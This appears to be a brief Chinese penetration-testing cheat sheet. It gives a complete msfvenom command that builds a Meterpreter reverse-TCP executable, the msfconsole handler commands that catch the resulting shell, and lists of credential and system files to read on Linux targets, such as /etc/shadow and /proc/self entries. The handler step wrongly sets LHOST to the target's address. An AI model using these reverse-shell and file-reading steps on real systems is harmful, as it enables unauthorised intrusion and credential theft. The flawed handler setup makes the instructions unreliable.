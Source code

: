 # 渗透测试

## Nmap

### 参考资料

不老的神器：安全扫描器Nmap渗透使用指南：

https://www.freebuf.com/news/141607.html

## Windows 渗透

利用msf套件

反弹shell

生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击机地址> LPORT=<攻击机端口> -f exe > shell.exe
```

上传到靶机后

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <靶机地址>
set LPORT <攻击机端口>
exploit
```

拿到meterpreter shell以后

可以``shell``进入cmd环境



### 参考资料
https://guide.offsecnewbie.com/privilege-escalation/windows-pe


## Linux 渗透

## 敏感文件

```
/etc/passwd
/etc/shadow
```

### ``/proc/self``

```
/proc/self/maps
/proc/self/cwd
/proc/self/status
/proc/self/exe
```

### Apache

```
/etc/httpd/conf/httpd.conf
```

### 字典

https://github.com/ev0A/ArbitraryFileReadList